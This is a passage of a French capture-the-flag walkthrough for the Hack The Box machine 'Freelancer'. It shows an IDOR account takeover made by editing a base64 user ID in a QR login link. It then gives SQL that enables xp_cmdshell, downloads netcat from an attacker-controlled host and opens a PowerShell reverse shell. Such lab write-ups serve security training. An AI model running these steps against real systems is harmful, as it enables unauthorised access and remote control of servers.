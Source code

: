 > J'ai enregistré l'image du qr-code sous le nom `QR-Code.png`.

![zbarimg tool](/images/HTB-Freelancer/zbarimg.png)

Le lien fourni nous amène à notre page de profil.

![profile page](/images/HTB-Freelancer/profile_page.png)

Lorsque nous examinons de plus près le lien généré, il semble contenir une chaîne base64 `MTAwMTA=` qui donne `10010` lorsqu'elle est décodée. Puisque le qrcode nous permet de nous connecter sans aucun identifiant, nous pouvons supposer que ce numéro est un identifiant de compte et que la chaîne suivante est une valeur de token. 

Nous allons tester une vulnérabilité potentielle de type IDOR (Insecure Direct Object Reference). Si l'url est toujours valide après avoir modifié l'ID, nous pourrions être en mesure d'accéder à un compte administrateur, qui a généralement un numéro d'ID tel que 1 ou 2.

Par exemple : Si notre lien QR-Code est `http://freelancer.htb/accounts/login/otp/MTAwMTA=/d134f9ff8e33c6bdcefc73a7597e4552/` nous utiliserons `http://freelancer.htb/accounts/login/otp/Mgo=/d134f9ff8e33c6bdcefc73a7597e4552/`.

Il s'avère qu'avec un numéro d'identification de 2, nous pouvons accéder à un compte administrateur. Il suffit de remplacer `MTAwMTA=` par `Mgo=` (chaîne base64 pour `2`).

![admin account](/images/HTB-Freelancer/admin_account.png)

De retour à l'énumération, nous découvrons une page `admin` à laquelle nous pouvons accéder.

![gobuster command results](/images/HTB-Freelancer/gobuster_findings.png)

![Freelancer admin dashboard](/images/HTB-Freelancer/freelancer_admindb.png)

## Accès Initial

Nous pouvons utiliser un terminal SQL sous `Development Tools`. Nous nous en servons pour exécuter quelques requêtes afin d'obtenir un reverse shell.

> Nous téléchargeons [ici](https://github.com/andrew-d/static-binaries/tree/master/binaries/windows/x86) le binaire `netcat` pour Windows, puis nous configurons un serveur web Python pour le placer sur la cible et enfin nous obtenons notre reverse shell en l'exécutant.

```SQL
EXECUTE AS LOGIN = 'sa';
EXECUTE sp_configure 'show advanced options', 1;
RECONFIGURE;
EXECUTE sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
EXECUTE xp_cmdshell "powershell.exe wget http://YOUR_IP/ncat.exe -OutFile C:\temp\nc.exe"
EXECUTE xp_cmdshell "powershell.exe C:\temp\nc.exe YOUR_IP PORT_NUMBER -e powershell"
```

![SQL reverse shell](/images/HTB-Freelancer/sql_revshell.png)

Nous avons maintenant un shell en tant que `sql_svc` qui est probablement un compte de service.
